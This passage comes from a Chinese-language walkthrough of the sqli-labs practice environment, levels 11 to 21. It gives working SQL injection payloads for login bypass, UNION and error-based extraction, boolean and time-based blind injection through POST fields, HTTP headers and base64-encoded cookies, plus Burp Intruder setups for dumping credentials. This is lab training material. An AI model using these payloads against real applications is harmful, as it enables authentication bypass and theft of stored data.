Host: 192.168.3.3
Content-Length: 62
Cache-Control: max-age=0
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/149.0.0.0 Safari/537.36
Origin: http://192.168.3.3
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.3.3/sqli-labs/Less-11/
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

uname=-1' union select 1,database() --+&passwd=1&submit=Submit
```


#### 要点小结

| 点 | 说明 |
| --- | --- |
| 与 GET 关差异 | 参数在 POST body，不是 URL |
| 闭合 | 用户名处单引号 `'` |
| 注释 | `--+` 必须能注释掉密码条件那段 SQL |
| 工具 | 浏览器插件或 Burp 改包更清晰 |

***

### Less-12：POST · 双引号 + 括号 `")`

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-12/` |
| 注入方式 | POST |
| 类型 | 字符型 |
| 典型 SQL 形态 | `... WHERE uname=("$uname") AND passwd=("$passwd")` |
| 闭合方式 | `")` |

#### 源码逻辑（理解用）

用户名被包在双引号和括号中。只写 `"` 往往不够，需要 `")` 正确闭合，再用注释去掉后续条件。

#### 解题步骤

**1）确认闭合**

用户名依次试：

```latex
admin"
admin")
admin")--+
```

密码随意。当 `admin")--+` 不再报语法错误、或逻辑符合预期时，闭合即为 `")`。


**2）绕过登录**

```latex
admin") or ("1"="1
```

部分环境需：

```latex
admin") or 1=1 --+
```

密码任意。


**3）列数与联合**

```latex
uname=-1") order by 2 --+&passwd=1
uname=-1") union select 1,2 --+&passwd=1
```


**4）取数据**

```latex
uname=-1") union select 1,database() --+&passwd=1
```

```latex
uname=-1") union select 1,group_concat(username,0x3a,password) from users --+&passwd=1
```


**5）报错注入备选**

```latex
uname=admin") and updatexml(1,concat(0x7e,(select database()),0x7e),1) --+&passwd=1
```


#### 要点小结

| 点 | 说明 |
| --- | --- |
| 与 Less-11 | 同为 POST 登录框，闭合从 `'` 变为 `")` |
| 与 Less-4 | 思想相同（`")`），通道改为 POST |
| 注意 | `order by` / `union` 前都要带完整闭合 `")` |

***

### Less-13：POST · 单引号 + 括号 · 双查询 / 弱回显

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-13/` |
| 注入方式 | POST |
| 闭合 | 常见为 `')` |
| 回显特点 | 登录成功多为固定提示，**不一定**把 username/password 列打到页面上 |
| 主攻手法 | 报错注入；其次布尔/时间盲注 |

#### 源码逻辑（理解用）

类似 Less-5 的「有注入、弱字段回显」，但参数来自 POST，且用户名多在 `('$uname')` 一类结构中。联合查询可能看不到清晰显示位，优先把数据打进**报错信息**。

#### 解题步骤

**1）确认注入与闭合**

用户名：

```latex
admin'
admin')
admin')--+
```

出现语法错误后，用 `')--+` 尝试闭合。密码随意。


**2）观察回显类型**

* 成功：You are in…… 或类似固定文案
* 失败：另一种提示或空白
* 语法错误：MySQL error 文本

若没有「第 2、3 列显示数字」，不要死磕普通 union 回显，改报错。

**3）报错注入读库名**

```latex
uname=admin') and updatexml(1,concat(0x7e,(select database()),0x7e),1) --+&passwd=1
```


**4）读表名**

```latex
uname=admin') and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1) --+&passwd=1
```


**5）读 users 数据**

```latex
uname=admin') and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users'),0x7e),1) --+

uname=admin') and updatexml(1,concat(0x7e,(select group_concat(username,0x3a,password) from users),0x7e),1) --+&passwd=1
```


数据过长被截断时，用 `limit` 分段：

```latex
uname=admin') and updatexml(1,concat(0x7e,(select concat(username,0x3a,password) from users limit 0,1),0x7e),1) --+&passwd=1
```


**6）可选：extractvalue**

```latex
uname=admin') and extractvalue(1,concat(0x7e,(select database()))) --+&passwd=1
```


#### 要点小结

| 点 | 说明 |
| --- | --- |
| 定位 | POST + `')` + 弱回显 |
| 对应 GET 关 | 思路类似 Less-5，通道与闭合不同 |
| 核心技能 | `updatexml` / `extractvalue` 报错读数据 |

***

### Less-14：POST · 双引号 · 双查询 / 弱回显

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-14/` |
| 注入方式 | POST |
| 闭合 | 双引号 `"`（部分环境为 `")`，以报错为准） |
| 回显特点 | 与 Less-13 类似，成功时固定文案为主 |
| 主攻手法 | 报错注入 |

#### 源码逻辑（理解用）

密码或用户名以双引号形式拼进 SQL。先精确判断是 `"` 还是 `")`，再套报错函数。

#### 解题步骤

**1）确认闭合**

用户名（或题目指定的注入框）依次提交：

```latex
admin"
admin")
admin"--+
admin")--+
```

根据是否还报「语法错误 near ...」判断完整闭合符。下面以常见的 `"` 为例；若源码是 `("$uname")`，则全程改用 `")`。


**2）报错读库名**

```latex
uname=admin" and updatexml(1,concat(0x7e,(select database()),0x7e),1) --+&passwd=1
```

若闭合是 `")`：

```latex
uname=admin") and updatexml(1,concat(0x7e,(select database()),0x7e),1) --+&passwd=1
```


**3）读表名**

```latex
uname=admin" and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1) --+&passwd=1
```


**4）读账号数据**

```latex
uname=admin" and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users'),0x7e),1) --+

uname=admin" and updatexml(1,concat(0x7e,(select group_concat(username,0x3a,password) from users),0x7e),1) --+&passwd=1
```

分段：

```latex
uname=admin" and updatexml(1,concat(0x7e,(select concat(username,0x3a,password) from users limit 1,1),0x7e),1) --+&passwd=1
```


**5）与 Less-13 对照练习**

同一套报错 payload，只改闭合引号/括号，体会「通道相同、闭合不同」时如何改写。

#### 要点小结

| 点 | 说明 |
| --- | --- |
| 与 Less-13 | 同为 POST 弱回显 + 报错 |
| 关键差异 | 单引号 `')` vs 双引号 `"` / `")` |
| 建议 | 每次先用报错信息反推 near 后面的字符，确定闭合 |

***

### Less-15：POST · 单引号 · 布尔盲注（登录框）

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-15/` |
| 注入方式 | POST |
| 类型 | 布尔盲注 |
| 闭合 | 单引号 `'` |
| 回显特点 | 一般**无**详细 SQL 报错；登录成功/失败页面不同（文案、跳转、提示语） |
| 主攻手法 | 根据「登录成功 vs 失败」做真假判断，逐字猜数据 |

#### 源码逻辑（理解用）

SQL 仍把 `uname`/`passwd` 拼进去，但应用层不把查询结果字段和数据库错误明细打到页面上。你只能通过「是否登录成功」或两种固定提示，判断条件为真还是假。

#### 解题步骤

**1）确认布尔差异**

用户名：

```latex
admin' and 1=1 --+
```

密码任意。若表现为「登录成功」或成功提示，记为**真页面**。


再提交：

```latex
admin' and 1=2 --+
```

若变为失败提示，记为**假页面**。两者有稳定差异即可做布尔盲注。


也可用：

```latex
' or 1=1 --+
' or 1=2 --+
```

观察差异（注意 `or` 可能导致直接登录成功，判断时以你记录的真假特征为准）。

**2）确认当前数据库长度**

```latex
admin' and length(database())=8 --+
```

`security` 长度为 8：为真则出现成功特征，为假则失败特征。


**3）逐字符猜库名**

```latex
admin' and substr(database(),1,1)='s' --+
admin' and substr(database(),2,1)='e' --+
admin' and substr(database(),3,1)='c' --+
```

或用 ascii 二分：

```latex
admin' and ascii(substr(database(),1,1))>115 --+
admin' and ascii(substr(database(),1,1))>110 --+
```


**4）猜表名是否存在 / 枚举表名**

判断 `users` 是否存在：

```latex
admin' and (select count(*) from information_schema.tables where table_schema=database() and table_name='users')>0 --+
```

枚举第一个表名长度与字符（示例）：

```latex
admin' and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=5 --+
```

```latex
admin' and substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)='u' --+
```


**5）猜列名与密码**

```latex
admin' and substr((select password from users limit 0,1),1,1)='D' --+
```

按字符递增位置 `substr(...,2,1)`、`substr(...,3,1)`……直到完整密码。

多用户时用 `limit n,1` 切换行。


**6）时间盲注备选**

若真假页不明显，可试：

```latex
admin' and if(1=1,sleep(5),0) --+
admin' and if(substr(database(),1,1)='s',sleep(5),0) --+
```

用响应时间当判断依据（与 Less-9 相同思想，通道为 POST）。

#### 手工效率说明

布尔/时间盲注字符量大，建议用脚本：对每个位置在 `32~126` 或 `a-z0-9` 范围内二分，根据响应关键字或耗时自动判定真假。手注阶段至少完整猜出 `database()` 一次，以巩固闭合与条件写法。

#### BurpSuite 抓包

**第一阶段：猜解数据库名长度**

1. 在 Intruder 的 Positions 标签下，清除所有默认标记（`§§`）。
2. 将 `uname` 参数的值修改为：admin' and length(database())=§1§ --+这里 `§1§` 是我们的 Payload 位置。

```latex
admin' and length(database())=1 --+
```


3. 在 Payloads 标签下，Payload 类型选择 Numbers。
4. 设置数字范围：从 `1` 到 `50`（数据库名很少超过50个字符），步长为 `1`。


5. 在 Options 标签下，确保 Grep - Match 功能开启，并添加匹配规则。例如，添加字符串 `flag.jpg`（登录成功的标志）。这样，Intruder 会在结果中标记出包含此字符串的请求。


6. Start attack！攻击完成后，在结果表格中，找到响应长度与“成功”特征长度相同（或 `Grep Match` 标记为 `flag.jpg`）的那一行，其 Payload 值就是数据库名的长度，根据结果显示，数据库名的长度是 8。


\
\*\* 第二阶段：猜解数据库名\*\*

1. 修改 Payload 位置：admin' and ascii(substr(database(),§1§,1))=§2§ --+这里需要两个变量：`§1§`（字符位置）和 `§2§`（ASCII码值）。

```latex
admin' and ascii(substr(database(),1,1))=2 --+
```

2. 攻击模式选择 Cluster bomb（集束炸弹），它可以同时迭代多个变量 。


3. Payload Sets 配置：
   * Payload Set 1 (对应 `§1§`)：类型 Numbers，范围 `1` 到 `8`（已知长度）。
   * Payload Set 2 (对应 `§2§`)：类型 Numbers，范围 `0` 到 `127`，步长 `1`。


4. 再次配置 Grep - Match：匹配 `flag.jpg`。


5. Start attack！攻击结束后，在结果表格中，按 `Length` 列排序，所有“成功”的请求会聚在一起。Payload 1 的值就是字符位置，Payload 2 的值就是该位置字符的 ASCII 码。将所有“成功”请求的 Payload 2 转换为字符，并按位置顺序排列，即可得到数据库名（如 `security`）


也可以使用这种方法，不使用 ascii 码。

攻击模式选择 Cluster bomb（集束炸弹）

```latex
admin' and substr(database(),1,1)='a' --+
```


Payload Sets 配置


配置 Grep - Match：匹配 `flag.jpg`


Start attack 开始攻击。点击右侧的 flag ，显示这样的，选择这 8 项。


右键选择一个染色。


点击过滤器，选择“仅显示彩色项目”。


按一次 Payload1，让它按顺序排序，即可得出数据库名是“security”。


**第三阶段及以后：猜解表名、列名、数据**

一旦掌握了数据库名，后续流程完全相同，只是 SQL 语句更复杂。核心技巧是：始终先在 Repeater 中手工验证你的 Payload 模板语法正确并能正确区分真假，然后再交给 Intruder 自动化跑量

| 目标 | 示例 Payload (Intruder 中标记) | 攻击模式 | 关键 Payload 集合 |
| :--- | :--- | :--- | :--- |
| **猜表名数量** | `admin' and (select count(table_name) from information_schema.tables where table_schema=database())=§1§ --+` | Sniper | Numbers: 1-20 |
| **猜第一个表名** | `admin' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),§1§,1))=§2§ --+` | **Cluster bomb** | Set1: Numbers (1-长度)   Set2: Brute forcer (a-zA-Z0-9\_) |
| **猜第二个表名** | `admin' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),§1§,1))=§2§ --+` | **Cluster bomb** | 同上（修改 `limit` 参数） |
| **猜列名** | `admin' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),§1§,1))=§2§ --+` | **Cluster bomb** | 同上 |
| **猜数据** | `admin' and ascii(substr((select concat(username,':',password) from users limit 0,1),§1§,1))=§2§ --+` | **Cluster bomb** | 同上（猜解用户名密码拼接后的字符串） |

猜表名数量

```latex
admin' and (select count(table_name) from information_schema.tables where table_schema=database())=§1§ --+
```


得知一共有 4 个表。

猜表名长度

```latex
admin' and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=2 --+
```


得知第 4 个表名长度是 5。我们来猜第 4 个表。这里其他 1，2，3 表就不演示了。

猜表名

```latex
admin' and substr((select table_name from information_schema.tables where table_schema=database() limit 3,1),1,1)='a' --+
```


通过猜表名可以得到，第 4 个表名为“users”。

猜列名长度

```latex
admin' and length((select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 0,1))=2 --+
```


通过结果得知，第 1 列的长度是 2，第 2 列的长度是 8，第 3 列的长度是 8。

猜列名

第一个列名

```latex
admin' and substr((select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 0,1),1,1)='a' --+
```


第二个列名

把 limit 0,1 这里的“0”改成“1”，就是第二个列名了，以此类推。其他保持不变，就设置 payload 1 的 To 从 2 改为 8，因为通过上面可以得知，第二个和第三个列名的长度为 8，所以设置为 8。

```latex
admin' and substr((select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 1,1),1,1)='a' --+
```


第三个列名

```latex
admin' and substr((select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 2,1),1,1)='a' --+
```


通过结果可以得知，3 个列名分别是 id，username 和 password。

猜数据长度

第一个数据的长度

```latex
admin' and length((select concat(username,':',password) from users limit 0,1))=1 --+
```


users 表第一条数据是应该是有“用户名：密码“这样子组合，长度是 9，这里的冒号是 1，所以应该是用户名和密码组合起来是 8。

猜数据

这里使用是是 substr 去猜数据，但是 MySQL 字符串比较默认不区分大小写，某些场景下可能导致误判。

这里有建议使用 ascii 就没这些烦恼。

```latex
#substr
admin' and substr((select concat(username,':',password) from users limit 0,1),1,1)='a' --+

#ascii
admin' and ascii(substr((select concat(username,':',password) from users limit 0,1),1,1))=2 --+
```

substr 方式


ascii 方式


使用这个网站去解码 ascii 十进制。获得用户名和密码为“Dumb:Dumb”，看来上面的 strsub 的方式不能区分大小写。

<https://gchq.github.io/CyberChef/>


后面的数据只需要修改“limit 0,1),1,1))=2”里面的“0”改为 1，2，3，4...等等，就可以了，以此类推。

#### 要点小结

| 点 | 说明 |
| --- | --- |
| 与 Less-11 | 同为 POST 单引号，但几乎无数据位、无可用报错 |
| 与 Less-8 | 布尔思想相同，参数改为 POST |
| 判断依据 | 登录成功/失败文案，而不是 union 显示列 |
| 注释 | `--+` 注释密码条件，避免 `passwd` 干扰逻辑 |

***

### Less-16：POST · 双引号 + 括号 `")` · 布尔 / 时间盲注

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-16/` |
| 注入方式 | POST（登录表单） |
| 常见参数 | `uname`、`passwd` |
| 类型 | 字符型盲注 |
| 闭合方式 | `")` |
| 有无报错回显 | 一般无详细 SQL 错误 |
| 有无数据回显位 | 无（成功/失败多为固定提示） |
| 典型 SQL 形态 | `... WHERE username=("$uname") and password=("$passwd") ...` |
| 主攻手法 | 时间盲注（也可用布尔，若真假页可区分） |

#### 源码逻辑（理解用）

与 Less-15 同为登录框盲注，但用户名/密码被 **双引号 + 括号** 包裹。页面不返回查询字段，也不暴露清晰报错，只能通过「是否登录成功」或「响应是否明显变慢」判断条件真假。

#### 解题步骤

**1）确认闭合与注入点**

用户名处依次尝试：

```latex
admin"
admin")
admin") or 1=1#
admin") or 1=1--+
```

密码随意。若 `admin") or 1=1#` 能绕过密码逻辑（表现为登录成功），说明闭合为 `")`，且 `uname` 可注入。


**2）确认时间盲注是否可用**

```latex
uname=admin") and sleep(5)#&passwd=1&submit=Submit
```

或：

```latex
uname=1") or if(1=1,sleep(5),0)#&passwd=1&submit=Submit
```

* 响应明显延迟约 5 秒 → 时间盲注可用
* 再试 `if(1=2,sleep(5),0)`，应几乎不延迟，用于对比

注释符可用 `#` 或 `--+`（以你环境为准；Header 以外的 POST body 里两者常都可用）。


**3）猜数据库名长度**

```latex
uname=1") or if(length(database())=8,sleep(5),0)#&passwd=1&submit=Submit
```

`security` 长度为 8：延迟则条件为真。


**4）逐字符猜库名**

```latex
uname=1") or if(substr(database(),1,1)='s',sleep(5),0)#&passwd=1&submit=Submit
uname=1") or if(substr(database(),2,1)='e',sleep(5),0)#&passwd=1&submit=Submit
```


或用 ascii：

```latex
uname=1") or if(ascii(substr(database(),1,1))=115,sleep(5),0)#&passwd=1&submit=Submit
```

**5）猜表名、列名、数据**

表名是否存在：

```latex
uname=1") or if((select count(*) from information_schema.tables where table_schema=database() and table_name='users')>0,sleep(5),0)#&passwd=1&submit=Submit
```


枚举表名第一个字符（示例）：

```latex
uname=1") or if(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)='e',sleep(5),0)#&passwd=1&submit=Submit
```


猜 `users` 中某行密码：

```latex
uname=1") or if(substr((select password from users limit 0,1),1,1)='D',sleep(5),0)#&passwd=1&submit=Submit
```


**6）若真假页可区分，可改用布尔**

```latex
uname=1") or length(database())=8#&passwd=1&submit=Submit
uname=1") or substr(database(),1,1)='s'#&passwd=1&submit=Submit
```

以登录成功/失败文案为判断依据；若页面差异不明显，以时间盲注为主。


#### 要点小结

| 点 | 说明 |
| --- | --- |
| 与 Less-15 | 同为 POST 盲注，闭合由 `'` 变为 `")` |
| 与 Less-10 | 时间盲注思想相同，通道改为 POST |
| 效率 | 手注慢，练通流程后可用脚本二分枚举 |

***

### Less-17：POST · UPDATE 改密 · 报错注入

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-17/` |
| 注入方式 | POST |
| 页面功能 | 密码重置（输入用户名 + 新密码） |
| 可注入参数 | `passwd`**（新密码）** |
| 不可靠参数 | `uname` 常被 `check_input()` 等过滤/转义 |
| 类型 | UPDATE 语句中的字符串注入 |
| 有无报错回显 | 有（构造正确时可走报错注入） |
| 典型 SQL 形态 | `UPDATE users SET password='$passwd' WHERE username='...'` |

#### 源码逻辑（理解用）

1. 先用用户名去 `SELECT` 查是否存在该用户（`uname` 往往被转义或加引号处理，难注入）。
2. 用户存在则执行 `UPDATE`，把 `passwd`\*\* 直接拼进 SET\*\*，过滤弱或无过滤。
3. 因此：**用户名填真实存在的账号（如 **`admin`**）**，在**新密码**里注入。

#### 解题步骤

**1）确认用户名必须有效**

* 用户名填不存在的名字 → 常提示用户不存在，后面 UPDATE 不执行
* 用户名填 `admin`（或库中真实用户）→ 才会走到改密逻辑


**2）在 passwd 处确认注入**

```latex
uname=admin&passwd=test'&submit=Submit
```

出现 SQL 语法错误 → `passwd` 可注入。


**3）报错注入读库名**

```latex
uname=admin&passwd=1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)#&submit=Submit
```

或：

```latex
uname=admin&passwd=1' and extractvalue(1,concat(0x7e,(select database()),0x7e))#&submit=Submit
```


**4）读表名**

```latex
uname=admin&passwd=1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)#&submit=Submit
```


**5）读列名**

```latex
uname=admin&passwd=1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),0x7e),1)#&submit=Submit
```


**6）读数据（注意长度限制，可 limit 分段）**

```latex
uname=admin&passwd=1' and updatexml(1,concat(0x7e,(select concat(username,0x3a,password) from (select username,password from users limit 0,1) as temp),0x7e),1) #&submit=Submit
```

```latex
uname=admin&passwd=1' and updatexml(1,concat(0x7e,(select concat(username,0x3a,password) from (select username,password from users limit 1,1) as temp),0x7e),1) #&submit=Submit
```


**7）关于 **`or`** 的写法**

部分环境用：

```latex
passwd=1' or updatexml(1,concat(0x7e,(select database()),0x7e),1) or '1'='1
```

若遇短路或回显异常，优先用 `and`\*\* + **`#`** 注释\*\* 的写法，更稳定。


#### 注意

* 本关会**真实执行 UPDATE**，可能改掉 `admin` 的密码；练习库可在后台重置，或改完记下新密码。
* 报错函数一次回显长度有限，长数据用 `limit` 或 `substr` 拆开取。

#### 要点小结

| 点 | 说明 |
| --- | --- |
| 注入点 | 新密码 `passwd`，不是用户名 |
| 前提 | `uname` 必须是库里存在的用户 |
| 语句类型 | UPDATE，不是 SELECT；仍可用 `updatexml`/`extractvalue` 报错带数据 |
| 与前几关 | 首次系统练「写操作语句里的注入」 |

***

### Less-18：Header · User-Agent · 报错注入

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-18/` |
| 注入方式 | HTTP 请求头 **User-Agent** |
| 类型 | 报错注入（INSERT 场景） |
| 前提 | 通常需 **正确账号密码登录成功**，才会执行把 UA 写入数据库的逻辑并回显相关信息 |
| 典型 SQL 形态 | `INSERT INTO uagents (uagent, ip_address, username) VALUES ('$uagent', '$IP', ...)` |

#### 源码逻辑（理解用）

登录成功后，应用把浏览器的 **User-Agent**、IP、用户名插入 `uagents` 表。`$uagent` 来自请求头，拼接进 `VALUES ('$uagent', ...)`。在 UA 里闭合单引号，可触发 SQL 错误并把数据打到报错信息中。

页面往往会显示 Your User Agent / IP 等信息，便于确认头被使用。

#### 解题步骤

**1）先正常登录**

使用库中有效账号（如 `admin` / 对应密码；若密码曾在 Less-17 被改，用当前密码）。

登录成功后应能看到 User-Agent 或 IP 一类回显。


**2）Burp 抓登录（或登录后的）请求，改 User-Agent**

先测注入：

```http
User-Agent: '
```

出现 SQL 语法错误 → UA 进入 SQL。


**3）构造报错 payload（注意 INSERT 多值，需闭合完整）**

一种常用思路：在第一个字符串处注入，并用注释或补全后面的值。

```http
User-Agent: ' and updatexml(1,concat(0x7e,(select database()),0x7e),1) and '
```

或（按报错提示的 near 位置微调括号与引号）：

```http
User-Agent: 1' and updatexml(1,concat(0x7e,(select database()),0x7e),1) and '1
```

部分 Writeup 使用补全三个字段的写法，例如在报错函数后补 `,1,1)` 再注释，需对照你本地报错信息调整。


**4）读表名、数据**

```http
User-Agent: 1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1) and '1
```

```http
User-Agent: 1' and updatexml(1,concat(0x7e,(select concat(username,0x3a,password) from users limit 0,1),0x7e),1) and '1
```


**5）注释符注意**

在 **HTTP 头**里，`--+` 的 `+` **不会**被当成空格；注释更稳妥用 `#`，或保证 `--` 后真有空格且服务端不截断。

#### 要点小结

| 点 | 说明 |
| --- | --- |
| 注入通道 | User-Agent 头，不是表单字段 |
| 前提 | 登录成功后 INSERT 才会带上 UA |
| 工具 | Burp / 改头插件 |
| 闭合 | 单引号；payload 要适配 `VALUES ('...')` 结构 |

***

### Less-19：Header · Referer · 报错注入

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-19/` |
| 注入方式 | HTTP 请求头 **Referer** |
| 类型 | 报错注入（INSERT 场景） |
| 前提 | 与 Less-18 类似，一般需登录成功后才会记录 Referer |
| 典型 SQL 形态 | `INSERT INTO referers (referer, ip_address) VALUES ('$referer', '$IP')` |

#### 源码逻辑（理解用）

逻辑与 Less-18 相近，只是写入的是 **Referer** 头到 `referers` 表。注入点从 UA 换成 Referer，报错手法相同。

#### 解题步骤

**1）有效账号登录成功**


**2）抓包，修改 Referer**

测试：

```http
Referer: '
```

出现 SQL 错误则确认注入点。


**3）报错读库名**

```http
Referer: ' and updatexml(1,concat(0x7e,(select database()),0x7e),1) and '
```

或：

```http
Referer: 1' and extractvalue(1,concat(0x7e,(select database()),0x7e)) and '1
```


**4）读表与数据**

```http
Referer: 1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1) and '1
```

```http
Referer: ' and updatexml(1,concat(0x7e,(select concat(username,0x3a,password) from users limit 0,1),0x7e),1) and '
```

若报错提示还缺字段或括号不匹配，根据 `near '...'` 补全 `,something` 或调整 `and '1'='1` 等形式。


**5）注释**

头字段中优先使用 `#` 注释。

#### 要点小结

| 点 | 说明 |
| --- | --- |
| 与 Less-18 | 手法几乎相同，通道为 Referer |
| 练习目标 | 建立「凡写入请求头的内容都可能进 SQL」的意识 |
| 调试 | 始终看完整报错行，用 near 后面的片段反推闭合 |

***

### Less-20：Cookie · 用户名 · 报错 / 联合注入

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-20/` |
| 注入方式 | **Cookie**（常见键名 `uname`） |
| 类型 | 字符型；可报错，部分环境也可联合 |
| 典型 SQL 形态 | `... WHERE username='$cookee' ...`（变量名以源码为准） |
| 页面现象 | 登录后把用户名写入 Cookie；之后请求带 Cookie 再查库展示欢迎信息 |

#### 源码逻辑（理解用）

1. 表单登录成功后，把用户名写入 Cookie（如 `uname=admin`）。
2. 后续访问用 Cookie 里的值拼进 SELECT。
3. 修改 Cookie 中的 `uname`，等于控制 SQL 中的字符串条件。

#### 解题步骤

**1）正常登录一次**

登录成功后，在浏览器或 Burp 中查看 Cookie，确认存在类似：

```http
Cookie: uname=admin
```


**2）确认注入**

改 Cookie：

```http
Cookie: uname=admin'
```

刷新页面，出现 SQL 语法错误 → Cookie 可注入。


**3）报错注入读库名**

```http
Cookie: uname=admin' and updatexml(1,concat(0x7e,(select database()),0x7e),1)#
```

或：

```http
Cookie: uname=admin' and extractvalue(1,concat(0x7e,(select database()),0x7e))#
```


**4）读表名、列名、数据**

```http
Cookie: uname=admin' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)#
```

```http
Cookie: uname=admin' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users'),0x7e),1)#
```

```http
Cookie: uname=admin' and updatexml(1,concat(0x7e,(select concat(username,0x3a,password) from users limit 0,1),0x7e),1)#
```


**5）联合查询（若有显示位）**

先根据报错和页面回显判断列数（**以你本地 **`order by`** 结果为准**，不要假设一定是 3 列），结果为到第 4 列就报错了：

```http
Cookie: uname=admin' order by 1#
Cookie: uname=admin' order by 2#
Cookie: uname=admin' order by 3#
Cookie: uname=admin' order by 4#
```


若只有 3 列，则：

```http
Cookie: uname=-1' union select 1,database(),3#
Cookie: uname=-1' union select 1,group_concat(username,0x3a,password),3 from users #
```

列数不同时，`union select` 的列数必须与之对齐。


**6）操作方式**

* Burp：抓包改 `Cookie:` 行后 Repeater 重放
* 浏览器：F12 → Application → Cookies 里改 `uname` 后刷新

#### 要点小结

| 点 | 说明 |
| --- | --- |
| 注入通道 | Cookie，不是 URL/POST 表单 |
| 闭合 | 一般为单引号 `'` |
| 手法 | 优先报错；有回显位再联合 |
| 列数 | 务必本地 `order by` 实测，再写 `union select` |
| 与 18/19 | 同属「非正文参数注入」，位置在 Cookie |

***

### Advanced Injections 高级注入

### Less-21：Cookie · Base64 编码 · 单引号 + 括号 `')` · 报错 / 联合注入

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-21/` |
| 注入方式 | Cookie（键名一般为 `uname`） |
| 特殊处理 | Cookie 值经 **Base64 编码** 存储与传输；服务端先 `base64_decode` 再拼进 SQL |
| 闭合方式 | `')`（单引号 + 右括号） |
| 类型 | 字符型；可报错，部分环境也可联合 |
| 典型 SQL 形态 | `SELECT * FROM users WHERE username=('$decoded') LIMIT 0,1` |

#### 源码逻辑（理解用）

1. 登录成功后，把用户名做 **Base64** 再写入 Cookie（例如 `admin` → `YWRtaW4=`）。
2. 下次请求读取 `$_COOKIE['uname']`，先 `base64_decode`，再拼进带括号与单引号的 SQL。
3. 因此：你在 Cookie 里看到的是编码后的字符串；构造 payload 时要在**明文**写好注入语句，再整体 Base64，写回 Cookie。

#### 解题步骤

**1）正常登录，观察 Cookie**

登录成功后抓包或看浏览器 Cookie，例如：

```http
Cookie: uname=YWRtaW4=
```

用 Base64 解码：`YWRtaW4=` → `admin`。


**2）确认注入与闭合**

明文测试（先写明文，再编码）：

| 明文 | Base64（示例） | 预期 |
| --- | --- | --- |
| `admin'` | `YWRtaW4n` | 常仍报错或不完整闭合 |
| `admin')` | `YWRtaW4nKQ==` | 可能仍有后续语法问题 |
| `admin')#` | `YWRtaW4nKSM=` | 用于尝试闭合 + 注释 |

把编码结果写入：

```http
Cookie: uname=YWRtaW4nKSM=
```

若出现 SQL 语法错误，说明 Cookie 解码后进入了 SQL。结合报错里 `near` 后面的内容，确认需要 `')` 闭合。


**3）报错注入读库名（推荐）**

明文 payload：

```latex
admin') and updatexml(1,concat(0x7e,(select database()),0x7e),1)#
```

或：

```latex
admin') and extractvalue(1,concat(0x7e,(select database()),0x7e))#
```

对**整段明文**做 Base64，再作为 `uname` 的值提交。

编码可用：

* Burp Decoder：Encode as Base64
* 命令行：`echo -n "明文payload" | base64`
* 在线 Base64 工具（注意不要多编码换行）


**4）读表名、列名、数据**

明文示例：

```latex
admin') and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)#
```

```latex
admin') and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),0x7e),1)#
```

```latex
admin') and updatexml(1,concat(0x7e,(select concat(username,0x3a,password) from users limit 0,1),0x7e),1)#
```

每条都先 Base64，再放入 Cookie。


**5）联合查询（可选，列数以本地为准）**

明文先测列数：

```latex
admin') order by 1#
admin') order by 2#
admin') order by 3#
admin') order by 4#
```


以你环境中最后一个成功的数字为准（不要假设一定是 3）。若为 3 列，示例：

```latex
-1') union select 1,database(),3#
-1') union select 1,group_concat(username,0x3a,password),3 from users#
```

同样整段 Base64 后写入 Cookie。


**6）操作流程小结**

```latex
构造明文 payload（带正确闭合 ') ）
    → Base64 编码
    → Cookie: uname=<编码结果>
    → 刷新 / Repeater 重放
    → 从报错或页面读数据
```

#### 要点小结

| 点 | 说明 |
| --- | --- |
| 与 Less-20 | 同为 Cookie 注入，多了 Base64 编解码 |
| 闭合 | `')`，不是单纯的 `'` |
